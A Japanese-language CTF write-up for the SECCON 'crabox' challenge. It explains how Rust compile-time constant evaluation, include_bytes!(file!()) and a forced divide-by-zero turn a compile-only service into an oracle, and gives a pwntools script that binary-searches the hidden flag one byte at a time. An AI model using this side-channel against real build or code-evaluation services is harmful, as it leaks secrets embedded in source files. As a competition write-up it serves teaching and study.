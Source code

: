 # crabox

## 概要

Rustのソースコードを送信すると、コンパイルに成功するか否かが返ります。
FLAGはコンパイルされるプログラムの末尾に、コメントとして記載されています。

```rust
TEMPLATE = """
fn main() {
    {{YOUR_PROGRAM}}

    /* Steal me: {{FLAG}} */
}
""".strip()
```

## 観察

### const

const で変数定義をすると、コンパイル時に評価して代入してくれるようです。

```rust
fn main() {
    const b: bool = false;
    const r: u8 = 1 / (b as u8);
}
```

上記コードを実行すると、ゼロ除算のエラーが**コンパイル時に**発生します。

```text
error[E0080]: evaluation of constant value failed
 --> main.rs:3:19
  |
3 |     const r: u8 = 1 / (b as u8);
  |                   ^^^^^^^^^^^^^ attempt to divide `1_u8` by zero
```

### マクロ

ソースコードの情報をboolに落とし込むために、使えそうなマクロを探しました。
参考：[Rustの便利マクロ特集](https://qiita.com/elipmoc101/items/f76a47385b2669ec6db3)

以下をコンパイルして実行すると、ソースコードそのものが表示されました。
この情報は使えそうです。

```rust
fn main() {
    const f: &str = include_str!(file!());
    println!("{}", f);
    /* Steal me: {{FLAG}} */
}
```

str型だとコンパイル時の比較処理をうまく扱えなかったので、最終的には `include_bytes!` を使用することにしました。

## 解法

以下のプログラムを実行してFLAGを獲得しました。

```python
from pwn import *

TEMPLATE = """
const f: &[u8; {{LENGTH}}] = include_bytes!(file!());
const b: bool = f[{{INDEX}}] >= {{VALUE}};
const r: u8 = 1 / (b as u8);
"""


def is_compilable(program):
    io = remote("crabox.seccon.games", "1337")
    io.sendline(program.encode())
    io.sendline(b"__EOF__")
    res = io.recvall()
    io.close()
    return b":)" in res


def generate_program(length, index, value):
    program = TEMPLATE
    program = program.replace("{{LENGTH}}", f"{length:03}")
    program = program.replace("{{INDEX}}", f"{index:03}")
    program = program.replace("{{VALUE}}", f"{value:03}")
    return program


# check the overall length of the program
length = len(TEMPLATE)
while True:
    program = generate_program(length, 0, 0)
    if is_compilable(program):
        break
    length += 1
print(f"{length = }")  # length = 173


# check the starting potision of the FLAG
for start in range(length - 1, -1, -1):
    program = generate_program(length, start, ord("S"))
    program = program.replace(">=", "==")
    if is_compilable(program):
        break
print(f"{start = }")  # start = 144

# determine each character of the FLAG
flag = "SECCON{"
while flag[-1] != "}":
    ok = 32
    ng = 128
    while ng - ok > 1:
        x = (ok + ng) // 2
        program = generate_program(length, start + len(flag), x)
        if is_compilable(program):
            ok = x
        else:
            ng = x
    flag += chr(ok)
    print(f"OK: {flag}")
# SECCON{ctfe_i5_p0w3rful}
```
